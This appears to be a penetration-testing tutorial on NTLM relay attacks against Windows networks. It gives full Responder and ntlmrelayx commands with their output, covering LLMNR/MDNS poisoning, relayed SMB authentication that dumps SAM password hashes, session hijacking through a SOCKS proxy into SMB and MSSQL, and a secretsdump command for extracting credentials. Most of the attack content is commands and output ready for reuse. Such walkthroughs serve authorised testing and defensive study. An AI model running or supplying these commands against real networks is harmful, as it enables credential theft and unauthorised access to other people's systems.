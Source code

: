 ## ntlmrelayx info and setup

For more detailed information see: https://www.secureauth.com/blog/playing-with-relayed-credentials/

Instead of trying to crack the hashes, we can instead relay the hashes to specific machines/services that accept NTLM authentication and potentially gain access. This can be done over multiple services using ntlmrelayx.py.

Each service can be specified as service://host, for example smb://10.0.0.1. Or all://host can be used to test all services. 

1. SMB/SMB2
2. LDAP
3. MS-SQL
4. IMAP/IMAPS
5. HTTP/HTTPs
6. SMTP


This image, taken from the link above, shows how ntlmrelayx will operate setup as one-shot or SOCKS. Using the -socks option will allow a SOCKS proxy to maintain all the sessions started and each can be connected to individually. Where as with the one-shot, only one connection will be made and it will not continue. 

![](/images/ntlmrelayx.png)


How SOCKS mode works:

1. Socks Server - This holds all the sessions and maintains them with a keepalive, which is bound to the particular protocol being used.
2. Socks Relay Plugin - Since the relay is holding multiple connections, we need to trick the SOCKS client that an actual authentication is happening, when it is not since the session is already established. The SOCKS Server will need to know the client server along with the username when connecting to a session.


In order to relay hashes to ntlmrelayx, Responder needs to be set up.
Some protocols may need to be turned off in Responder, at /user/share/responder/Responder.conf. EX: for SMB relay, SMB and HTTP need to be turned off.


## Responder info and setup

```sh
kali@kali-[~]$sudo responder -I eth0 -rdw -v
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

```


## One-shot example for SMB Relay

Note that SMB signing must be disabled on hosts for this to work


Setting up responder as noted before this will listen for a poison responses

```sh
[+] Listening for events...

[*] [MDNS] Poisoned answer sent to 192.168.133.147 for name test.local
[*] [LLMNR]  Poisoned answer sent to 192.168.133.147 for name test
[*] [MDNS] Poisoned answer sent to 192.168.133.147 for name test.local
[*] [LLMNR]  Poisoned answer sent to 192.168.133.147 for name test
[*] [MDNS] Poisoned answer sent to 192.168.133.147 for name test.local
[*] [LLMNR]  Poisoned answer sent to 192.168.133.147 for name test
```

ntlmrelayx is then used to relay the hashes to a system or list of systems (-t or -tf)

```sh
kali@kali-[~]$sudo ntlmrelayx.py -tf target.txt -smb2support
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Connection from HACKME/ADMINISTRATOR@192.168.133.147 controlled, attacking target smb://192.168.133.145
[*] Authenticating against smb://192.168.133.145 as HACKME/ADMINISTRATOR SUCCEED
[*] SMBD-Thread-4: Connection from HACKME/ADMINISTRATOR@192.168.133.147 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] HTTPD: Received connection from 192.168.133.147, attacking target smb://192.168.133.145
[*] Target system bootKey: 0x10f8f9195120811573d223cfdf3b03cb
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ee64f2f200a907144e32a382a5fd887b:::
localadmin:1001:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
[*] Done dumping SAM hashes for host: 192.168.133.145
```


## Example with SOCKS for SMB relay

Responder is setup the same way


ntlmrelayx is setup using the -socks option

```sh
# ./ntlmrelayx.py -tf /tmp/targets.txt -socks -smb2support
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Running in relay mode to hosts in targetfile
[*] SOCKS proxy started. Listening at port 1080
[*] IMAP Socks Plugin loaded..
[*] IMAPS Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] MSSQL Socks Plugin loaded..
[*] SMB Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx>
```


If hashes are sent to ntlmrelayx and connections are successful, a reponse like such will be shown

```sh
[*] Authenticating against smb://192.168.48.38 as VULNERABLE\normaluser3 SUCCEED
[*] SOCKS: Adding VULNERABLE/NORMALUSER3@192.168.48.38(445) to active SOCKS connection. Enjoy
```

Typing socks into the ntlmrelayx prompt will show active connections

```sh
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       192.168.48.38   VULNERABLE/NORMALUSER3    445
MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433
SMB       192.168.48.230  VULNERABLE/ADMINISTRATOR  445
SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
SMTP      192.168.48.224  VULNERABLE/NORMALUSER3    25
SMTP      192.168.48.224  CONTOSO/NORMALUSER1       25
IMAP      192.168.48.224  CONTOSO/NORMALUSER1       143
```

Ensure proxychains is setup to use port 1080

```sh
[ProxyList]
socks4 	192.168.48.1 1080
```

Connect to an availabe SMB session

```sh
proxychains smbclient //192.168.48.230/Users -U contoso/normaluser1
ProxyChains-3.1 (http://proxychains.sf.net)
WARNING: The "syslog" option is deprecated
|S-chain|-<>-192.168.48.1:1080-<><>-192.168.48.230:445-<><>-OK
Enter CONTOSO\normaluser1's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Thu Dec  7 19:07:54 2017
  ..                                 DR        0  Thu Dec  7 19:07:54 2017
  Default                           DHR        0  Tue Jul 14 03:08:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:59:33 2009
  normaluser1                         D        0  Wed Nov 29 14:14:50 2017
  Public                             DR        0  Tue Jul 14 00:59:33 2009

		5216767 blocks of size 4096. 609944 blocks available
smb: \>
```

Some important notes:
1. The right domain and username pair that matches the output from socks command must be used here. 
2. When asked for a password, enter anything. The SOCKS connection will fake the login process and tunnel the already active session



#### Connecting to MSSQL

```sh
proxychains ./mssqlclient.py contoso/normaluser1@192.168.48.230 -windows-auth
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Password:
|S-chain|-<>-192.168.48.1:1080-<><>-192.168.48.230:1433-<><>-OK
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WIN7-A\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(WIN7-A\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 19136)
[!] Press help for extra shell commands
SQL> select @@servername
```


#### Administrative Access

If admin access is gained, secretsdump.py can be used 
```sh
proxychains ./secretsdump.py vulnerable/Administrator@192.168.48.230
```